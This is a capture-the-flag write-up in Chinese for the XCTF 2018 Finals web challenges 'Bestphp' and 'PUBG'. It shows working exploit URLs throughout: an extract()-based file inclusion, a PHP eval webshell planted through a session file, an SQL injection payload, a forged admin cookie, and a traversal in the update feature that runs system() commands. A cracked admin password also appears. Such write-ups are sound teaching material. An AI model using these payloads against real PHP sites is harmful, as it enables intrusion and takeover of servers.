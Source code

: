 #XCTF 2018 Finals Web
##1.Bestphp
http://10.99.99.16/
![](/images/2-1.png)
之前一直忙，好不容易找个时间写writeup...在战队大佬的帮助下完成，要好好做做总结。

bestphp是一道PHP代码审计题，通过扫描发现test.php,admin.php和function.php文件,经过验证都没有什么用，尤其是test.php返回可调用的函数，估计真是出题者测试用的，下午的时候就被删除了...
初步漏洞点在call_user_func()和include()。
回调函数，传参数是数组，而且包含参数直接是变量，首先想到就是利用extract变量覆盖。
```
http://10.99.99.16/?function=extract&file=function.php
success!
```
变量覆盖成功后，测试php伪协议构造data文件,没有开启此功能。
```
http://10.99.99.16/?function=extract&file=data:text/plain;base64,PD9waHAgcGhwaW5mbygpPz4=
failed!
```
测试php://filter 成功,直接获取function.php源码,并没有什么用，只能算是干扰项。
```
http://10.99.99.16//index.php?function=extract&file=php://filter/read=convert.base64-encode/resource=function.php
success!
```
>function.php:
```
<?php
function filters($data){
	foreach($data as $key=>$value){
		if(preg_match('/eval|assert|exec|passthru|glob|system|popen/i',$value)){
			die('Do not hack me!');
		}
	}
}
?>
```
>admin.php:
```
hello admin
<?php
if(empty($_SESSION['name'])){
	session_start();
	#echo 'hello ' + $_SESSION['name'];
}else{
	die('you must login with admin');
}

?>
```
到这，admin.php作用不大，但是引导我们想到，seesion文件包含这个方向，所以到这矛盾点就到了session文件位置，程序ini_set('open_basedir', '/var/www/html:/tmp');限制了可操作位置。在这耗了很久，查询php文档发现session_start()，[【PHP手册-session_start()】 ](http://php.net/manual/zh/function.session-start.php)PHP7.0.0 新加 options 参数（数组），初始化相关设置，以此来修改session文件存储路径。
```
http://10.99.99.16//index.php?function=session_start&save_path=/tmp
POST DATA:name=<?php echo 'helloworld';@eval(\x24_POST['test']);?>
文件包含
http://10.99.99.16/index.php?function=extract&file=/tmp/sess_l86epsjlkte51fu6gp4dr9eir3
```
构造[EXP脚本](/files/bestphp_exp.py)

get flag，运行结果如下：
![](/images/2-2.png)
##2.PUBG
http://guaika.txmeili.com:8888/
根据题的要求修改host访问，关键是上来服务环境就崩溃，到下午才恢复。
根目录有备份文件www.zip，到这就说明是PHP代码审计了。
```
http://guaika.txmeili.com:8888/www.zip
```
关键源码Zend加密，先解密，但是变量全是随机长字符，很难读懂，在现场找看看有没有转化的，但没有找到，回来发现了[针对ZEND加密混淆的代码修复工具](http://www.zhaoyuanma.com/phpzendfix.html),可以修复变量名。
[源码](/files/www.zip)
[解密后源码](/files/wwwde.zip)
###2.1 SQL injection
在/kss_inc/payapi_return.php 中发现存在SQL注入：
跟踪$num变量，未进行过滤
```
else if ( $_obf_kYyPkY_PkJKVh4qGjJGIio4 == "e138" )
{
    $_obf_kpGPh4mNh46SkZONh4eLlJU = "";
    $_obf_k42NkY2RkoiNjJCKlZSKiIg = trim( $_POST['SerialNo'] );
    $num = $_obf_k42NkY2RkoiNjJCKlZSKiIg;
    $_obf_iIuQkYaUioqGlI6IjIuMiI8 = trim( $_POST['Status'] );
    $_obf_jpGJk5SSkJOIk4iQiI_OhpU = trim( $_POST['Money'] );
    $_obf_iImJjYmQjYyOjIuVkIuMjIs = trim( $_POST['VerifyString'] );
    $_obf_lIuQk5OGjpKVjY6UiI_QjJM = $_obf_jpGJk5SSkJOIk4iQiI_OhpU;
    if ( $_obf_iIuQkYaUioqGlI6IjIuMiI8 == "2" )
    {
        $_obf_i5CMioaGiI6ShomNiIuKjJE = "TRADE_FINISHED";
    }
    else
    {
        $_obf_i5CMioaGiI6ShomNiIuKjJE = "WAIT_BUYER_PAY";
    }
}
else
{
    exit( "errwg" );
}
_obf_iJKHiIeSiJGQkoiPjI6Kk5I( $num, $_obf_i5CMioaGiI6ShomNiIuKjJE, 0 );
$_obf_k42GiI_RiIqKjIaUio6IiIw = "POSTDATA:";
foreach ( $_POST as $_obf_koiIh4mRlJKGlIiGiJCUkI4 => $_obf_lYeSkY6Th5SOlYuHjZGVio8 )
{
    $_obf_k42GiI_RiIqKjIaUio6IiIw .= $_obf_koiIh4mRlJKGlIiGiJCUkI4."=".urlencode( $_obf_lYeSkY6Th5SOlYuHjZGVio8 )."&";
}
_obf_iJKHiIeSiJGQkoiPjI6Kk5I( $num, $_obf_k42GiI_RiIqKjIaUio6IiIw );
$_obf_lYuTjYmGkJWKk5WOjoeGlYw = "GETDATA:";
foreach ( $_GET as $_obf_koiIh4mRlJKGlIiGiJCUkI4 => $_obf_lYeSkY6Th5SOlYuHjZGVio8 )
{
    $_obf_lYuTjYmGkJWKk5WOjoeGlYw .= $_obf_koiIh4mRlJKGlIiGiJCUkI4."=".urlencode( $_obf_lYeSkY6Th5SOlYuHjZGVio8 )."&";
}
_obf_iJKHiIeSiJGQkoiPjI6Kk5I( $num, $_obf_lYuTjYmGkJWKk5WOjoeGlYw );
if ( !in_array( $_obf_i5CMioaGiI6ShomNiIuKjJE, $_obf_k5OQh4iJjoyPjJSMjpSOlZA ) )
{
    _obf_kYyOhouLjo2Gh4eNj4iQlIg( $_obf_jo_MipCRkYuSk4mSko2RkIg[$_obf_kYyPkY_PkJKVh4qGjJGIio4]."返回的状态码异常！" );
}
$_obf_jIaUiIeSjZWKlIqLkIqOioc = new mysql_cls( );
$_obf_jIaUiIeSjZWKlIqLkIqOioc->_obf_jIuSjYuUkJGHlYuPjZOQjY4( $_obf_mGKRY4dMuU6bZZJfh1_TX5k );
$_obf_lZGQj4iOj4mTlZGNjZGUj5E = $_obf_jIaUiIeSjZWKlIqLkIqOioc->_obf_iY6OkJCRkY2PjpCPk5CRkJA( "select * from kss_tb_log_agentrmb where ordernum='".$num."'" );
```
payload:
```
http://guaika.txmeili.com:8888/kss_inc/payapi_return.php
POST DATA: SerialNo=1&Money=100&Status=1&AttachString=138&MerchantKey=1&VerifyString=82cecfbfb3e283d334b935514143c7

```
直接用sqlmap，结果如下：
![](/images/1-1.png)
顺便试下，不能直接load_file getshell，得到用户名密码。
| username | password                         |
| ------ | ------ |
| axing    | 8ccf03839a8c63a3a9de17fa5ac6a192 |  
密码MD5解密为axing147258 
直接登录发现，一直显示密码报错，这时候想到，麦香老师说要注意下cookie，所以就想估计是要构造cookie绕过，又要审计下，cookie的创建和验证。
###2.2构造cookie绕过验证
>kss_inc/function.php
```
function _obf_jZKVlY6HkYmKkIyRj4qSjIc�( $_obf_iYyTho_HlJCOh4yRj4ePj4k�, $_obf_ipCJlJOSlJSQkYqNlYqKlIs� )
{
    setcookie( $_obf_iYyTho_HlJCOh4yRj4ePj4k�, $_obf_ipCJlJOSlJSQkYqNlYqKlIs�, 0, "/", NULL, NULL, TRUE );
    if ( BINDIP == 1 )
    {
        setcookie( $_obf_iYyTho_HlJCOh4yRj4ePj4k�."_ver", md5( $_obf_ipCJlJOSlJSQkYqNlYqKlIs�.COOKKEY._obf_jZKKjpCGkZSUj4aOiIePlZI�( ) ), 0, "/", NULL, NULL, TRUE );
    }
    else
    {
        setcookie( $_obf_iYyTho_HlJCOh4yRj4ePj4k�."_ver", md5( $_obf_ipCJlJOSlJSQkYqNlYqKlIs�.COOKKEY ), 0, "/", NULL, NULL, TRUE );
    }
    return $_obf_ipCJlJOSlJSQkYqNlYqKlIs�.COOKKEY;
}
```
>kss_admin/index.php
找到manager cookiez字符串构造方法
```
$0_manager_cookie_key = $0_manager['id'].",".$0_username.",".md5( $0_password ).",".$0_linecode;
```
>kss_inc/db_function.php
找到 linecode = efefefef

[cookie生成脚本](/files/get_cookie.py)

###2.3 后台Getshell
![](/images/1-2.png)
成功登陆后台，首先想到的是写配置文件，getshell。最后发现config不可写或者报错，导致config信息写入数据库，一顿在后台测试未成功，大多是数据库操作的都需要安全码验证。
只能继续审计
>kss_admin/admin_update.php
这个网站的更新存在漏洞，是从远端主站获取写入本地:
```
$_obfuscate_koiKkIiPjI6UkYeRlIqNhoc� = _obfuscate_lY6Gk5KMkYmPjIyPhpCOlYc�( "http://api.hphu.com/import/".$_obfuscate_koaSiYqGjIqMiZSLk4uGiZU�.".php?phpver=".PHP_VERSION."&webid=".WEBID."&rid=".time( ), 300 );
```
我们跟入_obfuscate_lY6Gk5KMkYmPjIyPhpCOlYc�函数
位于第20行，函数中有curl相关的操作
```
curl_setopt( $_obfuscate_joiNh4aIhouViZGQho_JiI4�, CURLOPT_HEADERFUNCTION, "read_header" );
curl_setopt( $_obfuscate_joiNh4aIhouViZGQho_JiI4�, CURLOPT_WRITEFUNCTION, "read_body" );
```
看下read_body函数
```
function read_body( $_obfuscate_joiNh4aIhouViZGQho_JiI4�, $_obfuscate_jJWMiJWJjoyIkYmLjY6VipM� )
{
    global $_obfuscate_ko6MhoiQkJKRlYeVio_JjYo�;
    global $_obfuscate_j4eNjZOQlIuKhoqMj4mOjYs�;
    global $_obfuscate_koaSiYqGjIqMiZSLk4uGiZU�;
    if ( $_obfuscate_ko6MhoiQkJKRlYeVio_JjYo� == 0 && substr( $_obfuscate_jJWMiJWJjoyIkYmLjY6VipM�, 0, 2 ) == "<!" )
    {
        $_obfuscate_j4eNjZOQlIuKhoqMj4mOjYs� = 0;
    }
    $_obfuscate_ko6MhoiQkJKRlYeVio_JjYo� += strlen( $_obfuscate_jJWMiJWJjoyIkYmLjY6VipM� );
    file_put_contents( KSSROOTDIR."kss_tool".DIRECTORY_SEPARATOR."_webup.php", $_obfuscate_jJWMiJWJjoyIkYmLjY6VipM�, FILE_APPEND );
    echo "<script>$('#downsize').html('".$_obfuscate_ko6MhoiQkJKRlYeVio_JjYo�."');</script>";
    echo "<!--  ".str_repeat( " ", 2000 )." -->\r\n";
    ob_flush( );
    flush( );
    return strlen( $_obfuscate_jJWMiJWJjoyIkYmLjY6VipM� );
}
```
结合kss_admin/admin_makecache.php文件，利用代码中的sql过滤器，去触发某个页面的sql报错，从而将php代码回显。
EXP:
```
http://guaika.txmeili.com:8888/kss_admin/admin_update.php?pakname=../test/kss_admin/admin_makecache.php%3Faction=123%27%3C%3Fphp%2520system(%22dir%2520%22);%3F%3E
http://guaika.txmeili.com:8888/kss_admin/admin_update.php?pakname=../test/kss_admin/admin_makecache.php%3Faction=123%27%3C%3Fphp%2520system(%22type%2520C:\\dsaodjasovdsjgsmaohsormsdmsama.txt%22);%3F%3E
```
get flag
![](/images/1-3.png)


